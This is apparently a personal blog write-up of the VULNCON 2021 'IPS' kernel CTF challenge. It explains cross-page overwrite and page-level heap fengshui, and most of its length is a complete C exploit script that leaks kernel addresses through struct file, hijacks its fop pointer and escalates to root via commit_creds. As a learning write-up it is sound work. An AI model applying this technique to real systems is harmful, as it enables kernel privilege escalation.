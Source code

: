 ```yaml
---
title: "Learn Kernel Heap Cross Page Overwrite and Page Level Fengshui from a CTF challenge: IPS(VULNCON 2021)"
date: 2024-02-29 20:42:29
tags: 
layout: post
---
```


# 0xFF tl;dr

I learned this skill from this [article][1]. This article is shitty since I wrote three write-ups for the same challenge. I just document what's new so it's not for other readers. I recommend you to read Kyle's original [post][1]. Thanks @Kyle for the write-up!

# 0x00 Challenge

The attachment is available [here][5].

I analyzed the challenge and introduced related skills in this [article][2]. In that article, I used `msg_msg` to walk through different slabs and leak the target slab address then use arbitrary free to over write the function pointers. However, that method is kind of verbose. If we know some kernel heap fengshui, things gonna be much easier.

# 0x01 Exploitation


In this challenge we have UAF for kmalloc-128 and want to attack the objects on another slab, for example kmalloc-256. If we have a kmalloc-256 page just after kmalloc-128 page, we can free a fake chunk at the end of kmalloc-128 page and overwrite the first object on kmalloc-256, which is a very juicy pattern for exploitation. However, how can we make it happen? 

There are more comprehensive analysis of page level fengshui in this [article][3]. But to make life easier, I only introduce the facts we need in this challenge.

- When we run out of objects of curren slab, slab will use budysystem to allocate new pages
- When we run out of pages for one specific order, budysystem gonna borrow connected pages from higher order and split them to lower order.


Based on the two facts listed, we can do following steps to create such a patter that a kmalloc-128 page is next to a kmalloc-256 page.

- Drain 0x80 slab so slab allocator has to borrow from budysystem and budyststem has to borrow from higher order
- Allocte the vulnerable 0x80 object.
- Likly, the next page (of the page where vulnerable obejct locates) is still in budystsystem
- Drain 0x100 slab to get the next page.
- Arbitrary Free the fake chunk at the end of the page before the vulnerable page
- Refill and overflow


# 0x02 Leak & Attack

If we want to make leaking and attacking easier, we'd better select some obejcts including a pointer points to the same page where it is and some kernel text pointers so we can leak kernel text. Moreover, it should also include function pointers or a pointer to function pointer table so we can hijack RIP. 

Considering the requirements above, `struct file` is a good candidate.

We can leak kernel.text and current page's addresses if we can leak its content. Also, we can ovewrite the `fop` pointer to hijack RIP. 


# 0x03 Exploitation Script

```python
// https://github.com/n132/libx/tree/main
#include "libx.h"
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
    }
#endif // 
#define ISP 548
typedef struct {
  int idx;
  unsigned short priority;
  char *data;} dt;
void add(char *buf, int priority){
    dt dt;
    dt.priority = priority;
    dt.data = buf;
    return syscall(ISP,1,&dt);
}
void del(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,2,&dt);
}
void edit(int idx, char *buf){
    dt dt;
    dt.idx = idx;
    dt.data = buf;
    return syscall(ISP,3,&dt);

}
void copy(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
int main()
{   
    libxInit();
    // Drain 0x80
    msgSpray(0x50,0x10000/0x80,"Spray");
    add("0",0);
    // Drain 0x100
    int fds[0x200] = {0};
    for(int i = 0 ; i< 0x200 ; i++)
        fds[i] = open("/etc/passwd",0);
    
    for(int i = 1 ; i< 0x10; i++)
        add(str(i),i);
    copy(0);
    int msgid = msgGet();
    del(0);
    //Refill
    msgSend(msgid,"A",0x50);
    edit(-1,dpn('\xff',14,18));
    int msgid2 = msgGet();
    msgMsg* msg = msgRecv(msgid,0x1000);
    msgSend(msgid2,"B",0x50); // refill
    size_t * ptr  = msg->mtext;
    size_t faker = 0;
    size_t kernel = 0;
    for(int i = 3 ; i < 0x200-1 ; i++){
        // info(ptr[i]);

        if(0x000a801d00008000 == ptr[i]){
            kernel = ptr[i-3];
            faker = ptr[i+3] - 0x58-0x50;
            break;
        }        
    }
    if(!kernel || !faker)
        panic("Failed to Leak");
    info(kernel);
    info(faker);
    edit(-1,strcat(dpn('\xff',18,18+8),p64(faker)));
    msgid =  msgGet();
    
    size_t * fake_op = 0xdeadbeef000;
    char *pay = strcat(dpn('\xff',0xfd0+0x70,0xfd0+0x78),p64(fake_op+0x10));


    msgRecv(msgid2,1);
    msgSend(msgid,pay,0xfd0+0x78);
    
    mmapx(fake_op,0x1000);

    commit_creds = kernel - (0xffffffff82029500 - 0xffffffff8108a830);
    prepare_kernel_cred = kernel - ( 0xffffffff82029500 - 0xffffffff8108aad0);
    for(int i = 0 ; i < 0x200;i++)
        fake_op[i] = getRootPrivilige;

    debug();
    for(int i = 0 ; i<0x200; i ++)
        close(fds[i]);
}
```

# 0x04 Epilogue

Learned a new technique for kernel heap. 

Btw, struct file is so good. 
Cross Page Overwrite is also amazing!
Not sure if this heap fengshui skill is generic. I'll update if I got the answer.


[1]: https://blog.kylebot.net/2022/01/10/VULNCON-2021-IPS/#Exploitation
[2]: https://n132.github.io/2024/02/09/IPS.html
[3]: https://etenal.me/archives/1825
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips